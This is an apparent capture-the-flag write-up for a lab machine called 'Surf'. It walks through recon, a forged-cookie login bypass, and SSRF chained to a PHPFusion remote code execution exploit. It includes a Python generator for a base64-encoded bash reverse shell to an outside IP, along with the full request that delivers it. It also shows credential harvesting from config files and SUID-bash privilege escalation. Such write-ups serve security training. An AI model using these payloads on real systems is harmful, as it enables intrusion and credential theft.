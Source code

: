# Surf

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.171   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:06 +08
Nmap scan report for 192.168.175.171
Host is up (0.17s latency).
Not shown: 41614 filtered tcp ports (no-response), 23919 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Surfing Blog --> Login Bypass

Port 80 took so long to load I didn't bother with it. Instead, I started with a `gobuster` scan:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.171 -t 100    
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.171
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 16:19:50 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.175.171/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.175.171/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.175.171/js/]
/administration       (Status: 301) [Size: 327] [--> http://192.168.175.171/administration/]
```

There's an administration directory present, and when viewed it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

I tried default and weak credentials, but they don't work. When the traffic is viewed in Burp, we can see that there are some tokens being passed around:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

The `auth_status` cookie is just a `base64` encoded string of `{'success':'false'}`. Afterwards, the `auth_status` cookie is appended to every subsequent login attempt. We can easily replace this with `true` and be granted access to the admin dashboard:

<figure><img src="../../../.gitbook/assets/image (25) (9).png" alt=""><figcaption></figcaption></figure>

### SSRF --> RCE

Within the website, there isn't much functionality, but there is a 'Check Server Status' function:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Here's the HTTP request sent:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=nvesm039uh8qqsd19aqv25jhg3
Upgrade-Insecure-Requests: 1



url=http%3A%2F%2F127.0.0.1%3A8080
```

This looks vulnerable to a SSRF, and we can confirm it is.&#x20;

<figure><img src="../../../.gitbook/assets/image (12) (13).png" alt=""><figcaption></figcaption></figure>

Also, it tells us that the backend server is running PHPFusion. There are a few exploits available for PHPFusion:

```
$ searchsploit phpfusion    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
PHPFusion 9.03.50 - Persistent Cross-Site Scripting        | php/webapps/48497.txt
PHPFusion 9.03.50 - Remote Code Execution                  | php/webapps/49911.py
----------------------------------------------------------- ---------------------------------
```

We can download and view the RCE exploit to find that the exploit is triggered by sending a request to `/infusions/downloads/downloads.php?cat_id=${system(ls)}`.&#x20;

Using the exploit, we can create a payload generator as such:

```python
import base64
PAYLOAD = "bash -c  'bash  -i >& /dev/tcp/192.168.45.164/443 0>&1'  " # !!spaces are important in order to avoid ==!!
REQUEST_PAYLOAD = "/infusions/downloads/downloads.php?cat_id=$\{{system(base64_decode({})).exit\}}"

PAYLOAD_B64 = base64.b64encode(PAYLOAD.encode('ascii')).decode("ascii")
print(REQUEST_PAYLOAD.format(PAYLOAD_B64))
```

This would print `base64` encoded payload, which we can submit like so:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=rnaerbm2cbt3193qgev658ap3k
Upgrade-Insecure-Requests: 1



url=http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=$\{system(base64_decode(YmFzaCAtYyAgJ2Jhc2ggIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTY0LzQ0MyAwPiYxJyAg)).exit\}
```

Then we can get a reverse shell and grab the user flag:

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### James Creds

As usual, we should be looking at credential files within the website. There are some in the `/var/www/html/config.php` file:

```php
<?php
// database settings
$db_host = 'localhost';
$db_port = '3306';
$db_user = 'phpfusion';
$db_pass = 'phpfusion';
$db_name = 'phpfusion';
$db_prefix = 'fusionc6Jb6_';
$db_driver = 'pdo';
define("DB_PREFIX", "fusionc6Jb6_");
define("COOKIE_PREFIX", "fusion33hvd_");
define("SECRET_KEY", "2RH443cPDc588jUkNtQ29fjHwJIS89Ez");
define("SECRET_KEY_SALT", "F6UU9T38pjH48myWA3HqkkN431l26GkI");
```

There are other files in the `/var/www` file present as well:

```
www-data@Surf:/var/www$ ls   
html  server
```

We can find credentials inside the `server` file for the user `james`.&#x20;

```php
www-data@Surf:/var/www/server/administration/config$ cat config.php 
<?php

//Note: This file should be included first in every php page.
error_reporting(E_ALL);
ini_set('display_errors', 'On');
define('BASE_PATH', dirname(dirname(__FILE__)));
define('APP_FOLDER', 'simpleadmin');
define('CURRENT_PAGE', basename($_SERVER['REQUEST_URI']));

require_once BASE_PATH . '/lib/MysqliDb/MysqliDb.php';
require_once BASE_PATH . '/helpers/helpers.php';

/*
|--------------------------------------------------------------------------
| DATABASE CONFIGURATION
|--------------------------------------------------------------------------
 */

define('DB_HOST', "localhost");
define('DB_USER', "core");
define('DB_PASSWORD', "FlyToTheMoon213!");
define('DB_NAME', "corephpadmin");

/**
 * Get instance of DB object
 */
function getDbInstance() {
        return new MysqliDb(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
}
```

We can then `su` to `james`:

<figure><img src="../../../.gitbook/assets/image (8) (11).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password for `james`, we can check our `sudo` privileges:

```
james@Surf:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for james: 
Matching Defaults entries for james on Surf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User james may run the following commands on Surf:
    (ALL) /usr/bin/php /var/backups/database-backup.php
```

This file is owned by `www-data` and we can write to it:

```
james@Surf:/home$ ls -la /var/backups/database-backup.php
-rwxr-xr-x 1 www-data www-data 2758 Nov  9  2021 /var/backups/database-backup.php
```

The exploit would be to write a small snippet making `/bin/bash` an SUID binary and then executing it as `james`.&#x20;

We can use `vi` to edit the file to include `system("chmod u+s /bin/bash");`, and then use `:wq!` to force the save. Afterwards, when we can run the file using `sudo` as `james`:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Then we can easily become the `root` user:

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>
